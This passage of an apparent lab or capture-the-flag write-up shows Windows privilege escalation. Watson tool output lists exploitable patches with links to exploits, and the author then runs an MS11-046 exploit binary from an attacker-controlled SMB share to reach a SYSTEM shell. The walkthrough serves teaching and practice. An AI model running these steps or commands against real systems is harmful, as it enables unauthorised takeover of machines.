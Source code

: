 ```bash
[>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.
[>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
[>] Notes: None. 

[] Appears vulnerable to MS11-046
 [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges. 
[>] Exploit: https://www.exploit-db.com/exploits/40564/ 
[>] Notes: None.

[] Appears vulnerable to MS12-042 
[>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in kernel mode. 
[>] Exploit: https://www.exploit-db.com/exploits/20861/ 
[>] Notes: None. 

[] Appears vulnerable to MS13-005 
[>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity Level process to a higher Integrity Level process, thereby effecting a privilege escalation. 
[>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb 
[>] Notes: None. 

[] Finished. Found 5 vulns :)
```
As you can see the suggested exploits above using Watson.exe. Now, I’ll choose [__MS11-046__](https://github.com/abatchy17/WindowsExploits/tree/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046){:target="_blank"} because I found it compatible with our requirements and easily available on [__WindowsExploits__](https://github.com/abatchy17/WindowsExploits){:target="_blank"}. If you see the source of the exploit it shows:

```bash
Privileged shell execution:  
     - the SYSTEM shell will spawn within the invoking shell/process
```

For getting system shell, we have [__MS11-046__](https://github.com/abatchy17/WindowsExploits/tree/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046){:target="_blank"}, this is a precompiled exe that spawn system shell within current shell. I will save this exe in my smb share and run it on the current shell. If you want to know more about MS11-046, then you can visit [__here__](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2011/ms11-046){:target="_blank"}.

```bash
c:\Users>\\10.10.14.61\share\MS11-046.exe
 
 c:\Windows\System32>whoami
 whoami
 nt authority\system
 c:\Windows\System32>
```
